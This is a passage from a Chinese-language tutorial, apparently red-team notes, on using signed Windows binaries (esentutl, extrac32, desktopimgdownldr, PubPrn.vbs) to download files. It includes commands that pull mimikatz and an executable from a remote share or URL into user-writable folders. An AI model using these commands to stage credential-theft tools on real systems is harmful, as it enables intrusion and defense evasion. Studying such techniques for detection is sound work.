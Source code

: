 2.pubprn.vbs

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于

```
C:\Windows\System32\Printing_Admin_Scripts\en-US
```

3.esentutl.exe/extrac32.exe

```
esentutl.exe /y "\\172.16.249.149\share mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /0
extrac32.exe /Y /C \\172.16.249.149\share\test.txt C:\Users\Public\test.txt
```

![2022-11-18_13558.png](/2022-11-18_13558.png)

4.desktopimgdownldr.exe

desktopimgdownldr.exe 位于 Win10 的 system32 文件夹中，原本用于设置锁定屏幕或桌面背景图像的。

普通用户可以用：

```
set "SYSTEMROOT=C:\ProgramData" && cmd /c desktopimgdownldr.exe /lockscreenurl:http://url/xxx.exe /eventName:desktopimgdownldr
```

这样来下载文件。

![2022-11-18_79957.png](/2022-11-18_79957.png)

可以把 C:\ProgramData 来改成一个普通用户可写的目录。

下载的文件存放于：

```
C:\ProgramData\Personalization\LockScreenImage\x_%random%.exe.
```
